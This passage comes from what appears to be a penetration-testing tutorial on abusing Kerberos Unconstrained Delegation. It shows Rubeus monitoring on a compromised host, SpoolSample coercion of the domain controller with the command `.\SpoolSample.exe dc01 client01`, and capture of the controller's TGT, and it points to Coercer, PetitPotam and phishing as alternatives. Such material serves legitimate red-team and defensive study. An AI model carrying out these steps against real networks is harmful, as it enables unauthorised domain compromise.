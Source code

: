 !!!
Keep in mind that since our compromised machine `Client01$` is marked for Unconstrained Delegation, by not filtering the tickets account, you can get overwhelmed. Not filtering can be extremely useful in different scenarios, but now the target is `DC01$`
!!!

![Starting Rubeus in monitor mode](start_rubeus.png)

Starting Rubeus in monitor mode

The next step is to either wait for any form of authentication or force it! This may vary depending from your context and objectives, for example, phishing attacks for SMB path spoofing can be implemented, tricking users to connect to the Unconstrained machines.

In this example, we will perform coercion via [SpoolSample](https://github.com/leechristensen/SpoolSample) to trigger the authentication.

!!!
Coercion can be triggered via various tools such as [Coercer](https://github.com/p0dalirius/Coercer) or [Petitpotam](https://github.com/topotam/PetitPotam), do not limit yourself with anything specific! Different tools will work in different cases.
!!!

The syntax is fairly simple:

`.\SpoolSample.exe Target_Server Capture_Server`

Which will get translated to:

`.\SpoolSample.exe dc01 client01`

![Triggering the authentication from the DC to our capture server via SpoolSample](spoolsample.png)

Triggering the authentication from the DC to our capture server via SpoolSample

Now if we go back and check the Rubeus process, we can observer that the TGT from the Domain Controller's machine account was successfully dumped and injected.
